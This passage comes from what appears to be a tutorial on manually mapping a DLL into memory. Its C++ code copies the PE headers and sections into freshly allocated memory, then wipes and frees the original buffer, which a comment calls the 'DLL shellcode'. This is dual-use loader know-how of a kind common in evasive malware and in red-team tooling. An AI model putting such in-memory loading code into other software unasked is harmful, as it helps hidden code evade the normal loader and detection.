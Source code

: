 ```c++
HMODULE imageBase = (HMODULE)pVirtualAlloc(0, NTheader->OptionalHeader.SizeOfImage, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);

// Set mem to zero and copy headers to mem location
mmemset(imageBase, 0, NTheader->OptionalHeader.SizeOfImage);
mmemcpy(imageBase, module, dosHeader->e_lfanew + NTheader->OptionalHeader.SizeOfHeaders);

// Get headers from the new location
NTheader = GetNTHeaders((HMODULE)imageBase);
```

The next step is to copy all sections to their virtual addresses. The macro `IMAGE_FIRST_SECTION` returns a pointer to the fist section header (`IMAGE_SECTION_HEADER`). All section headers are following each other so `section++` jumps to the next section header. The `for` loop is just going through all the sections, getting `section->SizeOfRawData` then `memcopy` from `section->PointerToRawData` with a size of `section->SizeOfRawData` bytes into the allocated memory.
 
```c++
// Get first section
PIMAGE_SECTION_HEADER section = IMAGE_FIRST_SECTION(NTheader);

// Copy all sections to memory
for (int i = 0; i < NTheader->FileHeader.NumberOfSections; i++, section++)
{
    DWORD SectionSize = section->SizeOfRawData;

    if (SectionSize == 0)
    {
        if (section->Characteristics & IMAGE_SCN_CNT_INITIALIZED_DATA)
        {
            SectionSize = NTheader->OptionalHeader.SizeOfInitializedData;
        }
        else if (section->Characteristics & IMAGE_SCN_CNT_UNINITIALIZED_DATA)
        {
            SectionSize = NTheader->OptionalHeader.SizeOfUninitializedData;
        }
        else
        {
            continue;
        }
    }

    void* dst = (void*)((SIZE_T)imageBase + section->VirtualAddress);
    mmemcpy(dst, (byte*)module + section->PointerToRawData, SectionSize);
}
```

Then, the previous memory location is zeroed out and freed.

```c++
// Set DLL shellcode to 0
mmemset(module, 0, sizeDllFile);
pVirtualFree(module, 0, MEM_RELEASE)
```
